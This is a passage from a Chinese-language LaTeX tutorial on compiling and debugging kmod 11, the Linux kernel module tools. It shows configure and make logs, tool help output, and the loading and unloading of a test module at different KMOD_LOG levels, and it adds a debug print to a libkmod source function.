cflags:          -pipe -DANOTHER_BRICK_IN_THE -Wall -W -Wextra -Wno-inline -Wvla -Wundef -Wformat=2 -Wlogical-op -Wsign-compare -Wformat-security -Wmissing-include-dirs -Wformat-nonliteral -Wold-style-definition -Wpointer-arith -Winit-self -Wdeclaration-after-statement -Wfloat-equal -Wmissing-prototypes -Wstrict-prototypes -Wredundant-decls -Wmissing-declarations -Wmissing-noreturn -Wshadow -Wendif-labels -Wstrict-aliasing=2 -Wwrite-strings -Wno-long-long -Wno-overlength-strings -Wno-unused-parameter -Wno-missing-field-initializers -Wno-unused-result -Wnested-externs -Wchar-subscripts -Wtype-limits -Wuninitialized -fno-common -fdiagnostics-show-option -fvisibility=hidden -ffunction-sections -fdata-sections -g -O2
ldflags:         -Wl,--as-needed -Wl,--gc-sections 

tools:          yes
logging:        yes
compression:        xz=no  zlib=no
debug:          no
doc:            no
man:            yes
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/1-3-configure.png}
\caption{configure配置源码包}
\end{figure}

\subsection{编译项目源码}

{\begin{shaded}\begin{verbatim}
$ make
make --no-print-directory all-recursive
Making all in .
  CC       libkmod/libkmod.lo
  CC       libkmod/libkmod-list.lo
  CC       libkmod/libkmod-config.lo
  CC       libkmod/libkmod-index.lo
  CC       libkmod/libkmod-module.lo
  CC       libkmod/libkmod-file.lo
  CC       libkmod/libkmod-elf.lo
  CC       libkmod/libkmod-hash.lo
  CC       libkmod/libkmod-array.lo
  CC       libkmod/libkmod-util.lo
  CCLD     libkmod/libkmod-util.la
  CCLD     libkmod/libkmod.la
  CCLD     libkmod/libkmod-private.la
  CC       tools/kmod.o
  CC       tools/lsmod.o
  CC       tools/rmmod.o
  CC       tools/insmod.o
  CC       tools/modinfo.o
  CC       tools/modprobe.o
  CC       tools/depmod.o
  CC       tools/log.o
  CCLD     tools/kmod
  CCLD     tools/kmod-nolib
  GEN      tools/insmod
  GEN      tools/rmmod
  GEN      tools/lsmod
  GEN      tools/modprobe
  GEN      tools/modinfo
  GEN      tools/depmod
  GEN      libkmod/libkmod.pc
Making all in libkmod/docs
make[2]: Nothing to be done for `all'.
Making all in man
make[2]: Nothing to be done for `all'.
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/1-4-make.png}
\caption{make编译源码包}
\end{figure}

\subsection{测试生成命令}

{\begin{shaded}\begin{verbatim}
$ ./tools/insmod -h
Usage:
    insmod [options] filename [args]
Options:
    -V, --version     show version
    -h, --help        show this help
$ ./tools/rmmod -h
Usage:
    rmmod [options] modulename ...
Options:
    -f, --force       forces a module unload and may crash your
                  machine. This requires Forced Module Removal
                  option in your kernel. DANGEROUS
    -s, --syslog      print to syslog, not stderr
    -v, --verbose     enables more messages
    -V, --version     show version
    -h, --help        show this help
$ ./tools/lsmod -h
Usage: ./tools/lsmod
$ ./tools/modinfo -h
Usage:
    modinfo [options] filename [args]
Options:
    -a, --author                Print only 'author'
    -d, --description           Print only 'description'
    -l, --license               Print only 'license'
    -p, --parameters            Print only 'parm'
    -n, --filename              Print only 'filename'
    -0, --null                  Use \0 instead of \n
    -F, --field=FIELD           Print only provided FIELD
    -k, --set-version=VERSION   Use VERSION instead of `uname -r`
    -b, --basedir=DIR           Use DIR as filesystem root for /lib/modules
    -V, --version               Show version
    -h, --help                  Show this help
$ 
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/1-5-test.png}
\caption{测试生成命令}
\end{figure}

\section{项目Debug版运行调试图}

\subsection{配置时加上 --enable-debug, --enable-logging 参数}

{\begin{shaded}\begin{verbatim}
$ ./configure CFLAGS="-g -O2" --prefix=/usr --sysconfdir=/etc --libdir=/usr/lib --enable-debug --enable-logging
checking for a BSD-compatible install... /usr/bin/install -c
checking whether build environment is sane... yes
checking for a thread-safe mkdir -p... /bin/mkdir -p
checking for gawk... no
checking for mawk... mawk
checking whether make sets $(MAKE)... yes
checking whether make supports nested variables... yes
checking how to create a pax tar archive... gnutar
checking for style of include used by make... GNU
checking for gcc... gcc
checking whether the C compiler works... yes
checking for C compiler default output file name... a.out
checking for suffix of executables... 
checking whether we are cross compiling... no
checking for suffix of object files... o
checking whether we are using the GNU C compiler... yes
checking whether gcc accepts -g... yes
checking for gcc option to accept ISO C89... none needed
checking dependency style of gcc... gcc3
checking for gcc option to accept ISO C99... -std=gnu99
checking for gcc -std=gnu99 option to accept ISO Standard C... (cached) -std=gnu99
checking how to run the C preprocessor... gcc -std=gnu99 -E
checking for grep that handles long lines and -e... /bin/grep
checking for egrep... /bin/grep -E
checking for ANSI C header files... yes
checking for sys/types.h... yes
checking for sys/stat.h... yes
checking for stdlib.h... yes
checking for string.h... yes
checking for memory.h... yes
checking for strings.h... yes
checking for inttypes.h... yes
checking for stdint.h... yes
checking for unistd.h... yes
checking minix/config.h usability... no
checking minix/config.h presence... no
checking for minix/config.h... no
checking whether it is safe to define __EXTENSIONS__... yes
checking for special C compiler options needed for large files... no
checking for _FILE_OFFSET_BITS value needed for large files... 64
checking whether make supports nested variables... (cached) yes
checking build system type... i686-pc-linux-gnu
checking host system type... i686-pc-linux-gnu
checking how to print strings... printf
checking for a sed that does not truncate output... /bin/sed
checking for fgrep... /bin/grep -F
checking for ld used by gcc -std=gnu99... /usr/bin/ld
checking if the linker (/usr/bin/ld) is GNU ld... yes
checking for BSD- or MS-compatible name lister (nm)... /usr/bin/nm -B
checking the name lister (/usr/bin/nm -B) interface... BSD nm
checking whether ln -s works... yes
checking the maximum length of command line arguments... 1572864
checking whether the shell understands some XSI constructs... yes
checking whether the shell understands "+="... yes
checking how to convert i686-pc-linux-gnu file names to i686-pc-linux-gnu format... func_convert_file_noop
checking how to convert i686-pc-linux-gnu file names to toolchain format... func_convert_file_noop
checking for /usr/bin/ld option to reload object files... -r
checking for objdump... objdump
checking how to recognize dependent libraries... pass_all
checking for dlltool... no
checking how to associate runtime and link libraries... printf %s\n
checking for ar... ar
checking for archiver @FILE support... @
checking for strip... strip
checking for ranlib... ranlib
checking command to parse /usr/bin/nm -B output from gcc -std=gnu99 object... ok
checking for sysroot... no
checking for mt... mt
checking if mt is a manifest tool... no
checking for dlfcn.h... yes
checking for objdir... .libs
checking if gcc -std=gnu99 supports -fno-rtti -fno-exceptions... no
checking for gcc -std=gnu99 option to produce PIC... -fPIC -DPIC
checking if gcc -std=gnu99 PIC flag -fPIC -DPIC works... yes
checking if gcc -std=gnu99 static flag -static works... yes
checking if gcc -std=gnu99 supports -c -o file.o... yes
checking if gcc -std=gnu99 supports -c -o file.o... (cached) yes
checking whether the gcc -std=gnu99 linker (/usr/bin/ld) supports shared libraries... yes
checking whether -lc should be explicitly linked in... no
checking dynamic linker characteristics... GNU/Linux ld.so
checking how to hardcode library paths into programs... immediate
checking whether stripping libraries is possible... yes
checking if libtool supports shared libraries... yes
checking whether to build shared libraries... yes
checking whether to build static libraries... no
checking for gcc... (cached) gcc
checking whether we are using the GNU C compiler... (cached) yes
checking whether gcc accepts -g... (cached) yes
checking for gcc option to accept ISO C89... (cached) none needed
checking dependency style of gcc... (cached) gcc3
checking for gcc option to accept ISO C99... (cached) -std=gnu99
checking for typeof syntax and keyword spelling... typeof
checking whether gcc -std=gnu99 and cc understand -c and -o together... yes
checking whether gcc -std=gnu99 needs -traditional... no
checking whether byte ordering is bigendian... no
checking for a sed that does not truncate output... (cached) /bin/sed
checking for pkg-config... /usr/bin/pkg-config
checking pkg-config is at least version 0.9.0... yes
checking for __xstat... yes
checking for struct stat.st_mtim... yes
configure: Xz support not requested
configure: zlib support not requested
checking for xsltproc... /usr/bin/xsltproc
checking for gtkdoc-check... no
checking for gtkdoc-rebase... no
checking for gtkdoc-mkpdf... no
checking whether to build gtk-doc documentation... no
checking if gcc -std=gnu99 supports flag -pipe in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -DANOTHER_BRICK_IN_THE in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wall in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -W in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wextra in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wno-inline in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wvla in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wundef in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wformat=2 in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wlogical-op in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wsign-compare in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wformat-security in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wmissing-include-dirs in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wformat-nonliteral in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wold-style-definition in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wpointer-arith in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Winit-self in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wdeclaration-after-statement in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wfloat-equal in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wmissing-prototypes in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wstrict-prototypes in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wredundant-decls in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wmissing-declarations in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wmissing-noreturn in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wshadow in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wendif-labels in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wstrict-aliasing=2 in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wwrite-strings in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wno-long-long in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wno-overlength-strings in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wno-unused-parameter in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wno-missing-field-initializers in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wno-unused-result in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wnested-externs in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wchar-subscripts in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wtype-limits in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wuninitialized in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -fno-common in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -fdiagnostics-show-option in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -fvisibility=hidden in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -ffunction-sections in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -fdata-sections in envvar CFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wl,--as-needed in envvar LDFLAGS... yes
checking if gcc -std=gnu99 supports flag -Wl,--gc-sections in envvar LDFLAGS... yes
checking that generated files are newer than configure... done
configure: creating ./config.status
config.status: creating Makefile
config.status: creating man/Makefile
config.status: creating libkmod/docs/Makefile
config.status: creating libkmod/docs/version.xml
config.status: creating config.h
config.status: executing depfiles commands

config.status: executing libtool commands

    kmod 11
    ======

    prefix:         /usr
    sysconfdir:     /etc
    libdir:         /usr/lib
    rootlibdir:     /usr/lib
    includedir:     ${prefix}/include
    bindir:         ${exec_prefix}/bin

    compiler:       gcc -std=gnu99
    cflags:          -pipe -DANOTHER_BRICK_IN_THE -Wall -W -Wextra -Wno-inline -Wvla -Wundef -Wformat=2 -Wlogical-op -Wsign-compare -Wformat-security -Wmissing-include-dirs -Wformat-nonliteral -Wold-style-definition -Wpointer-arith -Winit-self -Wdeclaration-after-statement -Wfloat-equal -Wmissing-prototypes -Wstrict-prototypes -Wredundant-decls -Wmissing-declarations -Wmissing-noreturn -Wshadow -Wendif-labels -Wstrict-aliasing=2 -Wwrite-strings -Wno-long-long -Wno-overlength-strings -Wno-unused-parameter -Wno-missing-field-initializers -Wno-unused-result -Wnested-externs -Wchar-subscripts -Wtype-limits -Wuninitialized -fno-common -fdiagnostics-show-option -fvisibility=hidden -ffunction-sections -fdata-sections -g -O2
    ldflags:         -Wl,--as-needed -Wl,--gc-sections 

    tools:          yes
    logging:        yes
    compression:        xz=no  zlib=no
    debug:          yes
    doc:            no
    man:            yes
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/2-1-configure.png}
\caption{配置时加上调试参数}
\end{figure}

\subsection{make clean \&\& make 重新编译}

{\begin{shaded}\begin{verbatim}
$ make clean && make
Making clean in .
 rm -f tools/kmod
test -z "testsuite/uname.la testsuite/path.la testsuite/init_module.la testsuite/delete_module.la testsuite/libtestsuite.la" || rm -f testsuite/uname.la testsuite/path.la testsuite/init_module.la testsuite/delete_module.la testsuite/libtestsuite.la
rm -f testsuite/so_locations
 rm -f testsuite/test-init testsuite/test-testsuite testsuite/test-loaded testsuite/test-modinfo testsuite/test-alias testsuite/test-new-module testsuite/test-modprobe testsuite/test-blacklist testsuite/test-dependencies testsuite/test-depmod
test -z "libkmod/libkmod.pc" || rm -f libkmod/libkmod.pc
test -z "libkmod/libkmod.la" || rm -f libkmod/libkmod.la
rm -f libkmod/so_locations
rm -rf .libs _libs
rm -rf libkmod/.libs libkmod/_libs
rm -rf testsuite/.libs testsuite/_libs
rm -rf tools/.libs tools/_libs
test -z "libkmod/libkmod-util.la libkmod/libkmod-private.la" || rm -f libkmod/libkmod-util.la libkmod/libkmod-private.la
rm -f libkmod/so_locations
 rm -f tools/kmod-nolib
rm -f *.o
rm -f libkmod/*.o
rm -f libkmod/*.lo
rm -f testsuite/*.o
rm -f testsuite/*.lo
rm -f tools/*.o
rm -f *.lo
Making clean in libkmod/docs
test -z "" || rm -f 
rm -rf .libs _libs
rm -f *.lo
Making clean in man
test -z "depmod.d.5 modprobe.d.5 modules.dep.5 depmod.8 insmod.8 lsmod.8 rmmod.8 modprobe.8 modinfo.8 modules.dep.bin.5" || rm -f depmod.d.5 modprobe.d.5 modules.dep.5 depmod.8 insmod.8 lsmod.8 rmmod.8 modprobe.8 modinfo.8 modules.dep.bin.5
rm -rf .libs _libs
rm -f *.lo
make --no-print-directory all-recursive
Making all in .
  CC       libkmod/libkmod.lo
  CC       libkmod/libkmod-list.lo
  CC       libkmod/libkmod-config.lo
  CC       libkmod/libkmod-index.lo
  CC       libkmod/libkmod-module.lo
  CC       libkmod/libkmod-file.lo
  CC       libkmod/libkmod-elf.lo
  CC       libkmod/libkmod-hash.lo
  CC       libkmod/libkmod-array.lo
  CC       libkmod/libkmod-util.lo
  CCLD     libkmod/libkmod-util.la
  CCLD     libkmod/libkmod.la
  CCLD     libkmod/libkmod-private.la
  CC       tools/kmod.o
  CC       tools/lsmod.o
  CC       tools/rmmod.o
  CC       tools/insmod.o
  CC       tools/modinfo.o
  CC       tools/modprobe.o
  CC       tools/depmod.o
  CC       tools/log.o
  CCLD     tools/kmod
  CCLD     tools/kmod-nolib
  GEN      libkmod/libkmod.pc
Making all in libkmod/docs
make[2]: Nothing to be done for `all'.
Making all in man
  GEN      depmod.d.5
  GEN      modprobe.d.5
  GEN      modules.dep.5
  GEN      depmod.8
  GEN      insmod.8
  GEN      lsmod.8
  GEN      rmmod.8
  GEN      modprobe.8
  GEN      modinfo.8
$ 
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/2-2-make.png}
\caption{make重新编译}
\end{figure}

\subsection{设置日志优先级 KMOD\_LOG=7}

{\begin{shaded}\begin{verbatim}
$ sudo KMOD_LOG=7 ./tools/insmod ../hello-module/hello.ko
libkmod: INFO libkmod/libkmod.c:275 kmod_new: ctx 0x9243008 created
libkmod: DEBUG libkmod/libkmod.c:276 kmod_new: log_priority=7
libkmod: DEBUG libkmod/libkmod.c:389 kmod_pool_get_module: get module name='hello' found=(nil)
libkmod: DEBUG libkmod/libkmod.c:389 kmod_pool_get_module: get module name='hello' found=(nil)
libkmod: DEBUG libkmod/libkmod.c:397 kmod_pool_add_module: add 0x9243088 key='hello'
libkmod: DEBUG libkmod/libkmod-module.c:718 kmod_module_get_path: name='hello' path='/home/akaedu/Github/test-kmod-11/kmod-11/../hello-module/hello.ko'
libkmod: DEBUG libkmod/libkmod-module.c:440 kmod_module_unref: kmod_module 0x9243088 released
libkmod: DEBUG libkmod/libkmod.c:405 kmod_pool_del_module: del 0x9243088 key='hello'
libkmod: INFO libkmod/libkmod.c:318 kmod_unref: context 0x9243008 released
$ 
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/2-3-insmod.png}
\caption{设置 KMOD\_LOG=7 模式下插入模块}
\end{figure}

\subsection{卸载模块以便进行下一次插入}

{\begin{shaded}\begin{verbatim}
$ sudo KMOD_LOG=7 ./tools/rmmod ../hello-module/hello.ko
libkmod: INFO libkmod/libkmod.c:275 kmod_new: ctx 0x9584008 created
libkmod: DEBUG libkmod/libkmod.c:276 kmod_new: log_priority=7
$ 
\end{verbatim}\end{shaded}}
\subsection{设置日志优先级 KMOD\_LOG=6}

{\begin{shaded}\begin{verbatim}
$ sudo KMOD_LOG=6 ./tools/insmod ../hello-module/hello.ko
libkmod: INFO libkmod/libkmod.c:275 kmod_new: ctx 0x9c46008 created
libkmod: INFO libkmod/libkmod.c:318 kmod_unref: context 0x9c46008 released
$ 

$ sudo KMOD_LOG=6 ./tools/rmmod ../hello-module/hello.ko
libkmod: INFO libkmod/libkmod.c:275 kmod_new: ctx 0x9584008 created
libkmod: DEBUG libkmod/libkmod.c:276 kmod_new: log_priority=7
$ 
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/2-4-insmod2.png}
\caption{设置 KMOD\_LOG=6 模式下插入模块}
\end{figure}

\section{源码修改运行调试图}

\subsection{修改 modprobe.c 源码}

\subsection{修改 kmod\_module\_parse\_depline 函数}

{\begin{shaded}\begin{verbatim}
$ vi kmod-11/libkmod/libkmod-module.c +120
120 int kmod_module_parse_depline(struct kmod_module *mod, char *line)
121 {
122         struct kmod_ctx *ctx = mod->ctx;
123         struct kmod_list *list = NULL;
124         const char *dirname;
125         char buf[PATH_MAX];
126         char *p, *saveptr;
127         int err = 0, n = 0;
128         size_t dirnamelen;
129 
130         printf("<mydebug> line = %s\n", line);
131 
132         if (mod->init.dep)
133                 return mod->n_dep;
134         assert(mod->dep == NULL);
135         mod->init.dep = true;
136 
137         p = strchr(line, ':');
138         if (p == NULL)
139                 return 0;
140 
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./pictures/3-1-depline.png}
\caption{插入130行的打印 line 的语句}
\end{figure}

\subsection{重新编译生成新的 modprobe}

{\begin{shaded}\begin{verbatim}
$ make -C kmod-11/
make: Entering directory `/home/akaedu/Github/test-kmod-11/kmod-11'
make --no-print-directory all-recursive
Making all in .
  CC       libkmod/libkmod-module.lo
  CCLD     libkmod/libkmod.la
  CCLD     libkmod/libkmod-private.la
  CCLD     tools/kmod
  CCLD     tools/kmod-nolib
Making all in libkmod/docs
make[2]: Nothing to be done for `all'.
Making all in man
make[2]: Nothing to be done for `all'.
make: Leaving directory `/home/akaedu/Github/test-kmod-11/kmod-11'
$ 
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering
